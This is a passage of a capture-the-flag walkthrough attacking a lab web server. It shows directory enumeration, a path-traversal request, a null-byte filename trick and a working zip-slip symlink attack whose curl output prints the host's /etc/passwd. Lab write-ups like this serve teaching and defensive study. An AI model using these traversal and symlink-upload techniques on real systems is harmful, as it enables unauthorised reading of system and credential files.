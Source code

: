 Uhmm functions seems to be interesting but calling it do not produce useful information.

After some other injections on shop folder i found nothing useful, so i enumerated the main site again adding some extensions.

Upload.php seems to be very interesting.

`gobuster dir -u http://10.10.11.229/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt`

```
/uploads              (Status: 301) [Size: 314] [--> http://10.10.11.229/uploads/]
/shop                 (Status: 301) [Size: 311] [--> http://10.10.11.229/shop/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.229/assets/]
/upload.php           (Status: 200) [Size: 5322]
```

The following payload from the shop `GET /shop/index.php?page=../../html/upload HTTP/1.1` is valid and sites resides in  `/var/www/html`.

The upload page accepts only a zip file. In particular the zip file can contains only pdfs, and only one file!
Once uploaded the zip, the link to visualize the pdf inside the zip is shown.

Here there was an intented when the challenge got released and was to create a file inside the zip with a name containing a nullbytes, this would have let to save a php file on remote server (something like this `test.php%00.pdf`)

It does not work anymore, but we can reach `LFI` here by using the zip slip attack:

`ln -s ../../../../../../../../../../etc/passwd file.pdf`

`zip --symlinks poc.zip file.pdf`

but rending the uploaded file from browser

`Error Failed to load PDF document`

and with curl `curl http://10.10.11.229/uploads/d73f158f554250e5ef60c5518940036c/file.pdf`

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false

```
